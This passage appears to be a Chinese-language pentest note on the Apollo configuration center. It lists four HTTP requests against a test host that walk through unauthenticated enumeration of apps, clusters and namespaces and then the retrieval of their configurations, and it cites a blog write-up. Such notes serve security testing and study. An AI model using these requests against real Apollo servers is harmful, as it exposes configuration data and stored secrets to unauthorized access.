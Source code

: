 ```
# 1. 获取所有的应用基本信息(包含 appId)
http://test.landgrey.me:8090/apps

# 2. 获取相关 appId 的所有 cluster
http://test.landgrey.me:8090/apps/<appId>/clusters

# 3. 获取相关 appId 的 namespaces
http://test.landgrey.me:8090/apps/<appId>/appnamespaces

# 4. 组合 appId cluster namespaceName 获取配置 configurations
http://test.landgrey.me:8080/configs/<appId>/<cluster>/<namespaceName>
```

## 参考
- [Apollo 配置中心未授权获取配置漏洞利用](https://landgrey.me/blog/20/)
